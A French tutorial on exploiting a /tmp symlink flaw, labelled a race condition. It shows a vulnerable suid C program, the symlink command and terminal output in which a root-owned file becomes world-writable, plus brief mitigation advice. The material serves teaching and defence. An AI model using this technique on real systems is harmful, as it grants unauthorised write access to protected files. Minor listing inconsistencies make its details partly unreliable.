 # Race Condition

## I. Introduction
L'idée de la Race Condition est de profiter de l'accès concurrent de deux acteurs à une même ressource, et qu'au moins l'un d'entre eux est susceptible de modifier l'état de celle-ci. Nous allons par exemple ici rediriger les actions effectuées par le programme `vuln` d'un fichier à un autre.

## II. Pré-requis
* Avoir le droit de lecture écriture dans `/tmp/`
* Le programme `vuln` est suid, ou bien éxécuté par un utilisateur ayant les bons privilèges

```{r, engine='bash'}
aas@air:~$ cat vuln.c
int main(int arc, char **argv)
{
	int fd = open("/tmp/file",O_RDWR|O_CREAT, 0666);
	chmod("/tmp/file", 0777);
	close(fd);
	return 0;
}
```

Ce programme accorde des droits rwx à tout le monde pour le fichier `/tmp/file`. 

## III. Exploitation
Mettons que nous souhaitions maintenant écrire dans un fichier `/tmp/interdit` auquel nous n'avons pas les droits en écriture. Si nous pouvions détourner les actions entreprises par le programme `vuln` sur `/tmp/file` à `/tmp/interdit`, nous obtiendrions les droits nécéssaires. Cela est possible grace aux liens symboliques.

### Création du lien symbolique
```{r, engine='bash'}
aas@ubuntu:~$ ln -s /tmp/interdit /tmp/file
aas@ubuntu:~$ ls -l
total 13
-rwsr-xr-x  1 root       root      11238 2012-06-26 15:27 vuln
-rw-r--r--  1 root       root        188 2012-06-26 15:26 vuln.c
lrwxrwxrwx  1 aas        aas           9 2012-07-06 15:35 file -> interdit
-rw-r--r--  1 root       root          0 2012-07-06 15:22 interdit
```
Le fichier `file` pointe vers `interdit`. Lorsqu'on agit sur `file`, on agit donc en réalité sur `interdit`.

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
aas@ubuntu:~$ ls -l
total 13
-rwsr-xr-x  1 root       root      11238 2012-06-26 15:27 vuln
-rwsr--r--  1 root       root        188 2012-06-26 15:26 vuln.c
lrwxrwxrwx  1 aas        aas           9 2012-07-06 15:35 file -> interdit
-rwxrwxrwx  1 root       root          0 2012-07-06 15:36 interdit
```
Lorsque `vuln` est executé, il cherche à attribué les droits 777 à `file`, mais puisque `file` est un lien symbolique vers `interdit`, les droits sont en réalité affectés à `interdit`. Nous avons accédé de manière concurrente à une resource, l'avons modifié, et par conséquent avons trompé le programme vulnérable.

## IV. Sécurisation
Même s'il n'y a pas vraiment de protection efficace, notons que les mécanismes de sélection d'accès (sémaphores par exemple) doivent être mis en place, il faut protéger les repertoires temporaires avec l'option `nosuid`, etc...

## V. Sources
[Lien1](http://blog.stalkr.net/2010/11/exec-race-condition-exploitations.html)
